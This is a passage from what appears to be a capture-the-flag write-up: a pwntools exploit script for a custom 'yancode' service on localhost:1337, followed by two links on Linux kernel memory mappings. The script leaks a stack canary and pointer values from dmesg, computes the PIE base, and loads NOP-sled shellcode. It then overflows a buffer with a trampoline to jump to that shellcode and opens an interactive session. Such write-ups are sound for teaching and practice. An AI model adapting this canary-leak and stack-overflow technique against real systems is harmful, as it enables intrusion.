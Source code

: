 ```python
        crashing_yancode *= int(MAX_YANCODE_SIZE / 8)
        load_program(r0, crash_program, crashing_yancode)
        time.sleep(0.1)
        quit(r0)

    time.sleep(2)

    with process('dmesg | grep traps | tail -n 1', shell=True) as dmesg:
        dmesg.recvuntil(b'ip:')
        ip_leak = int(dmesg.recvuntil(b' '), 16)
        dmesg.recvuntil(b'sp:')
        sp_leak = int(dmesg.recvuntil(b' '), 16)

    log.info(f'ip_leak: {hex(ip_leak)} sp_leak: {hex(sp_leak)}')
    return ip_leak, sp_leak

def main():    
    p = process(BINARY)
    input("Press enter to start..")
    log.info("Exploit starts!")

    pad_size = 0x318
    canary = leak_canary(pad_size, debug=False)
    log.info(f'canary: {hex(canary)}')

    ip_leak, sp_leak = get_leaks(canary)
    pie_base = ip_leak - 0x175d
    log.info(f'pie_base: {hex(pie_base)}')
    assert(pie_base & 0xfff == 0)
    

    r1 = remote('localhost', 1337)   
    input("Press enter to load yancode to mmap'ed buffer..")
    yancode_program = 0
    yancode = gen_yancode()
    load_program(r1, yancode_program, yancode)

    target_ypu = 0
    init_ypu(r1, target_ypu, yancode_program)


    input("Press enter to load shellcode..")
    ypu_0_mmap_addr = pie_base + binary.symbols['data'] + 8
    log.info(f'ypu_0_mmap_addr: {hex(ypu_0_mmap_addr)}')

    shellcode_program = 0
    shellcode = b'\x90' * 0x100
    shellcode += asm(SHELLCODE.format(ypu_0_mmap_addr, ord(Opcodes.CMP), ord(Opcodes.SYSCALL)))
    shellcode += b'\x90' * (MAX_YANCODE_SIZE - len(shellcode))
    load_program(r1, shellcode_program, shellcode)

    input("Press enter to load trampoline..")
    shellcode_addr = sp_leak - 0x2fa8
    trampoline_program = 15
    trampoline = b'A' * pad_size 
    trampoline += p64(canary) + p64(shellcode_addr) * 2
    trampoline += b'B' * (MAX_YANCODE_SIZE - len(trampoline))
    load_program(r1, trampoline_program, trampoline)

    input("Press enter to jump to shellcode..")
    quit(r1)
    
    p.interactive()
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html
